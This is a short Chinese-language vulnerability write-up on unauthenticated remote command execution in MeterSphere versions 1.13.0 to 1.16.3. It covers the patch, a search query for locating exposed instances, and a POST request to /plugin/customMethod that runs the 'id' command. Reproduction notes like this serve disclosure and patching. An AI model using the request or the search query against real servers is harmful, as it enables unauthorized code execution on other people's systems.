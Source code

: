 # MeterSphere customMethod 远程命令执行漏洞

## 漏洞描述

2022年1月5日，知道创宇404积极防御实验团队发现了MeterSphere开源持续测试平台的一处漏洞，并向MeterSphere研发团队进行了反馈。通过该漏洞攻击者可以在未授权的情况下执行远程代码，建议MeterSphere平台用户，尤其是可通过公网访问的用户尽快进行升级修复

## 漏洞影响

<a-checkbox checked>MeterSphere v1.13.0 - v1.16.3</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MeterSphere"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1641555749774-16f5fa84-eed7-4ec7-8c9d-0daf4085f543.png)

根据官方的修复可以看到目前版本的修复版本为删除代码片段

filterChainDefinitionMap.put("/plugin/**", "anon");

```go
https://github.com/metersphere/metersphere/pull/9140/files
```

![img](../../../.vuepress/public/img/1641555879489-faa94a48-65aa-4eb5-b116-434b10b0895a.png)

查看文件 **/backend/src/main/java/io/metersphere/controller/PluginController.java**

![img](../../../.vuepress/public/img/1641556024273-44267007-49eb-46c6-b0fd-237b0fad9d74.png)

发送请求包

```go
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```

![img](../../../.vuepress/public/img/1641559411956-ce8b8be3-71db-4c31-95fa-d75a00adce85.png)